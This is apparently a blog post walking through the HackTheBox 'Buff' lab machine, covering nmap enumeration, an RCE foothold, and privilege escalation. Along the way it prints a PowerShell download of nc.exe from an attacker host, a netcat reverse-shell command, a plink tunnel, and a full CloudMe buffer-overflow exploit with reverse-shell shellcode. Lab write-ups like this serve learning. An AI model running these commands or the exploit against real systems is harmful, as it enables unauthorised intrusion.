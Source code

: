 --
layout: post
title: HackTheBox Buff walktthrough
# subtitle: Each post also has a subtitle
# gh-repo: daattali/beautiful-jekyll
# gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, netcat, plink, powershell, windows]
comments: true
---

# Buff HackTheBox walktthrough

## Introduction

![info_cart.png](_resources/3da2ee768f774733bb773b4d7ce5b828.png)

Buff is a machine on [HackTheBox](https://www.hackthebox.eu/) platform with the IP address 10.10.10.198. The machine is vulnerable to multiple CVE which are easy to find. The machine has been rated Easy by the community. When I wrote this walkthrough, Buff wasn't retired yet. Please don't cheat and solve the box by yourself if you didn't get root flag. The purpose of HacktTheBox is to learn and trying by yourself is the best way to do it.

## Post scan
Well, it started with several nmap scan to enumerate ports.


![fast_scan.png](_resources/8339a19328d74135ac616fd838f2a1ca.png)

I browser to the HTTP proxy and did a full TCP port scan in the background in case I've been missing something important.



![full_nmap.png](_resources/547e0902b8a04e2ca0c3a96acaa966fe.png)


Did a last scan to enumerate the version of the services I found.



![detail_nmap.png](_resources/348e061499bc40cc8f40b2e155662970.png)


![index_page.png](_resources/47b1d92d2c4d4785b3d3f9b5002627d4.png)

The first thing I tried to find were the technologies they used and their versions so I can search for CVE later. What does the application do? What language is it written in? What server software is the application running on? Do they use a CMS ?

Most of those questions were answered by poking around.

![contact_page.png](_resources/2e368b62d2cf4caebe60de2e5b9ec0a3.png)


![inspectorpng.png](_resources/155c34a5c1714eb4a049befe3ff90dbe.png)

## Foothold

I googled "Gym management Software 1.0" for exploits and get an unauthenticated [Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/48506).

![shaun_shell.png](_resources/6c57f1e511e74ee5ad430fe7597fe642.png)

Now I can execute command on the server as user Shaun but it's not really convenient because I don't have proper shell. Shaun is an unprivileged user and I need to get an Administrator account to fully control the machine. The next step would be to enumerate the machine to find a way to elevate my privilege but let's get a shell first.

### Upload files 

I created a python web server to extend the folder of the file I wanted to upload on the server.

![local_http_server.png](_resources/9e8822b28ea047eebc5fce2fbad00451.png)

Executed the command below to download the file from my machine with the right IP address.
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://YOUR_IP_ADDRESS:8000/nc.exe', 'C:\xampp\htdocs\gym\upload\nc.exe')
```
I upload the first version of Netcat on the server since this version has an option to execute commands.

### Reverse shell

Opened the port 1234 for incoming connection and execute `nc.exe X.X.X.X 1234 -e cmd.exe` with your ip address to establish the reverse shell connection.

![listen_1234.png](_resources/9d1a53b7cddc40cfb5c063c935153ec8.png)



### System Information gathering

Ok. So I'm logged in windows x64 machine as Shaun. Let's begin or research from Shaun home directory to see what's there

```Plaintext
c:\Users\shaun>dir *.txt or *.exe /s /b
...
c:\Users\shaun\Desktop\user.txt
...
c:\Users\shaun\Downloads\CloudMe_1112.exe                                   
```
The command `dir` is used to list files a directory in cmd process. I used the option below to list important files.
- *.txt or *.exe : search for text and executable banry files 
- /s : search recursivly 
- /b : display only the path

## Privilege escalation

I googled "CloudMe_1112.exe" and found this executable were vulnerable to buffer overflow. Since we are in a CTF game, this information probably lead to something...

The executable open the port 8888 on the loopback interface (127.0.0.1), unfortunately I couldn't access this port from my kali machine. I download the [lastest version of plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) which is the command line tool of putty and executed the command below to create a SSH tunnel and get access to the port 8888 from my machine.


`plink.exe -ssh -l kali -pw YOUR_PASSWORD -R YOUR_IP_ADDRESS:8888:127.0.0.1:8888 YOUR_IP_ADDRESS`

### Exploitation 

I downloaded a [POC from exploit-db](https://www.exploit-db.com/exploits/48389) and modified the payload. 

```Python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe YOUR_IP_ADDRESS 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python  -v payload <--- Command I used to create the payload 
payload = b"\xda\xd3\xd9\x74\x24\xf4\xba\x7a\xe7\x80\xb2\x5e"		#<--- Modified payload
payload += b"\x33\xc9\xb1\x3e\x83\xc6\x04\x31\x56\x14\x03\x56"
payload += b"\x6e\x05\x75\x4e\x66\x4b\x76\xaf\x76\x2c\xfe\x4a"
payload += b"\x47\x6c\x64\x1e\xf7\x5c\xee\x72\xfb\x17\xa2\x66"
payload += b"\x88\x5a\x6b\x88\x39\xd0\x4d\xa7\xba\x49\xad\xa6"
payload += b"\x38\x90\xe2\x08\x01\x5b\xf7\x49\x46\x86\xfa\x18"
payload += b"\x1f\xcc\xa9\x8c\x14\x98\x71\x26\x66\x0c\xf2\xdb"
payload += b"\x3e\x2f\xd3\x4d\x35\x76\xf3\x6c\x9a\x02\xba\x76"
payload += b"\xff\x2f\x74\x0c\xcb\xc4\x87\xc4\x02\x24\x2b\x29"
payload += b"\xab\xd7\x35\x6d\x0b\x08\x40\x87\x68\xb5\x53\x5c"
payload += b"\x13\x61\xd1\x47\xb3\xe2\x41\xac\x42\x26\x17\x27"
payload += b"\x48\x83\x53\x6f\x4c\x12\xb7\x1b\x68\x9f\x36\xcc"
payload += b"\xf9\xdb\x1c\xc8\xa2\xb8\x3d\x49\x0e\x6e\x41\x89"
payload += b"\xf1\xcf\xe7\xc1\x1f\x1b\x9a\x8b\x75\xda\x28\xb6"
payload += b"\x3b\xdc\x32\xb9\x6b\xb5\x03\x32\xe4\xc2\x9b\x91"
payload += b"\x41\x3c\xd6\xb8\xe3\xd5\xbf\x28\xb6\xbb\x3f\x87"
payload += b"\xf4\xc5\xc3\x22\x84\x31\xdb\x46\x81\x7e\x5b\xba"
payload += b"\xfb\xef\x0e\xbc\xa8\x10\x1b\xff\x74\xb3\xdc\x61"
payload += b"\xe5\x3b\x6d\x3e\x9d\xcf\xe9\xd1\x3e\x43\xae\x4a"
payload += b"\xb9\xce\x12\xe0\x49\x7d\xc4\x6b\xcd\x21\x74\x0f"
payload += b"\x23\xbf\xf0\xaa\x1b\x0e\x31\x1b\x6a\x40\x1f\x52"
payload += b"\xb8\x8e\x66\xb4\xf4\xfa\xac\x80\xd4\x2f\xa8\xc8"
payload += b"\x77\x5d\x56\x27\x12\xe5\xf3\x37"
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

I executed it and got a shell as Administrator.


![root_shell.png](_resources/c2ee9ee649634840b89d70f9ca4b2ccd.png)

And that’s how I did Buff. This is my first walkthrough, others will be coming soon. I hope you learn something. See you till the next write up.

